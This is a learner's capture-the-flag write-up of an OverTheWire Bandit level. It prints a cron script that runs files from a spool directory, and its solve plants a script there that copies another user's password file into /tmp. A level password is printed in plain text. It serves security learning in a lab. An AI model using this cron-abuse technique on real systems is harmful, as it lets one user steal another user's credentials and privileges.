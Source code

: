 -(understanding in what i learned) so i cat the cron file and understood the shellscript and then copied the cat command of the password of levle 24 into temporary directory called password as well as into a password shellscript as it was going to get removed once command is run so then i copied the command from password.sh file to another directory mentioned and then used cat command to obtain the pass

```bash
ls
cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
echo "cat /etc/bandit_pass/bandit24 > /tmp/password" > /tmp/password.sh
cp /tmp/password.sh /var/spool/bandit24/foo/password.sh
cat /tmp/password
```

## What I learned
- the script first changes directory to /var/spool/bandit24/foo and then starts a loop to check every file other than ones starting with . and .. which means cwd and parent directory
- it gets the owner of the username and only permits bandit23 for excution for about 60 seconds and delted the file after excuting it
- so the script runs as user bandit24 every minute and executes any file in /var/spool/bandit24/foo/ that is owned by bandit23.

## References 


25.
# Challenge Name
script writing to the user (24-25)

## My solve
**pass:** `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`
